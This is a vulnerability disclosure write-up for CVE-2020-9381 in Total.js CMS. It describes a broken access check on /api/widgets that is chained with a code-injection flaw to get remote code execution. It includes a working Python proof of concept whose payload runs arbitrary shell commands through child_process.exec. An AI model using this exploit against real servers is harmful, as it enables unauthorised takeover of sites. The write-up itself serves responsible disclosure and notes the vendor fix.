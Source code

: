# CVE-2020-9381 

## Broken Access Control TO RCE

---

> Any user (including  unauthorized users) can call `/api/widgets/`, This leads to rce

**Code Analysis**

> cmsbundle\.src\controllers\admin.js

- `/api/widgets` be allow call any user

![image-20200218142151636](assets/image-20200218142151636.png)

![image-20200218142218530](assets/image-20200218142218530.png)

- Users aren't grant privileges , also using api :

![image-20200218145341292](assets/image-20200218145341292.png)

- Combine ``CVE-2019-15954 (Code Injection)`` -> **RCE unauthorize** 

---

PoC

- (Needing user in website)

```python
import requests
import sys

session = requests.Session()

def request(cookie,cmd):
    headers = {"Content-Type":"application/json; charset=utf-8"}
    cookies = {"__admin":cookie}
    payload = "\"<script total>global.process.mainModule.require(\'child_process\').exec('%s');</script>\"" %(cmd)
    rawBody = '{"name":"meomeo","body":%s,"category":"Inline"}' %(payload)
    response = session.post("http://localhost:8000/admin/api/widgets/", data=rawBody,headers=headers ,cookies=cookies ,)
    if "true" in response.text:
        print("RCE!")
    else:
        print(response.text)


if __name__ == "__main__":
    if len(sys.argv) < 4:
        print("Help: python PoC.py + cookie + cmd")
        sys.exit()
    else:
        url = sys.argv[1]
        cookie = sys.argv[2]
        cmd = sys.argv[3]
        request(cookie,cmd)
```

**demo:**

![image-20200218144738205](assets/image-20200218144738205.png)

<u>**vendor confirm:**</u> https://github.com/totaljs/cms/commit/2a26c4c6a61d3fda4527a761716ef7e1c5f7c970

![image-20200219205614764](assets/image-20200219205614764.png)

---

##  TIMELINE:

- **18/2/2020** : Report for vendor
- **19/2/2020** : Vendor confirn and fix
- **24/2/2020** : CVE-2020-9381